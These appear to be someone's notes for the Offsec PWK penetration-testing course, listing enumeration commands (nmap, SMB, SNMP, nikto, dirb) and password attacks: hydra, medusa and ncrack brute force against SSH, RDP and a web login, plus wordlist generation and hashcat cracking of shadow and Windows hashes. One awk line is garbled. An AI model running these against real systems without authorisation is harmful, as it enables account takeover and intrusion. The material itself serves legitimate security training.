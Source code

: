 # Offsec

Offsec PWK notes and frecuently used files.

<ol>
  <li><a href="#Scanning">Scanning and Enumeration</a></li>
  <li>Exploitation</li>
  <li>Exploit Development</li>
  <li>Password Attacks</li>
  <li>Reverse Shells</li>
  <li>Privilege Escalation</li>
  <li>File Transfers</li>
  <li>Post Exploitation</li>
  <li>Port Forwarding</li>
  <li>Web Attacks</li>
</ol>


<div id="Scanning"> <h3>2.Scanning and Enumeration</h3></div>

#Define Target IP as TGT

TGT=x.x.x.x 

<h4> NMAP</h4>

nmap++ $TGT

<h4> SMB</h4>

nbtscan -r 10.0.11.1

enum4linux -USGPoi $TGT >> SMB.txt

smbclient -L $TGT

showmount -e $TGT

<h4> SMTP </h4>

nmap -p 25 --script smtp-enum-users.nse,smtp-commands.nse $TGT

<h4> SNMP</h4>

snmpcheck -t $TGT >> ENUM-SNMP.txt

snmpwalk -c public $TGT  -v 2c

onesixtyone -c public.txt -o snmp-onesixtyone.txt -dd $TGT 

<h4> HTTP</h4>

nikto -o nikto.html -Display V -nolookup -host $TGT  && firefox nikto.html

Dirbuster: Change to 50 req/s, no recursion, export simple list. 

dirb http://$TGT /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -l -o dirb.txt

<h4> SSH </h4>

msf > use auxiliary/scanner/ssh/ssh_enumusers

<h3> 4. Dictionary Attacks </h3> 
<p>
ncrack -vv --user rax -P wordlist.txt rdp://10.11.0.10

medusa -h 10.11.0.10 -u root -P /usr/share/wordlists/rockyou.txt -e ns -M ssh

hydra -l administrator -P wordlist.txt 192.168.11.201 ssh

hydra 10.10.10.10 :80 http-form-post "/PHP/index.php:nickname=^USER^&password=^PASS^:bad password" -l garry -P /usr/share/wordlists/nmap.lst -t 10 -w 30 -o hydra-http-post-attack.txt
</p>

<h4> Password Generation with cewl and John </h4>

cewl http://10.11.1.1/index.html >> words.txt

john --wordlist=words.txt --rules --stdout >> wordlist.txt

<h4> Cracking Hashes - Linux </h4>

cat shadow.txt | awk -F':' '{print }' > hashes.txt

hashcat -m 500 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt

hashcat -m 1800 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt

<h4> Cracking Hashes - Windows </h4>

hashcat -m 1000 -a 0 -o output.txt --remove hashes.txt /usr/share/wordlists/rockyou.txt

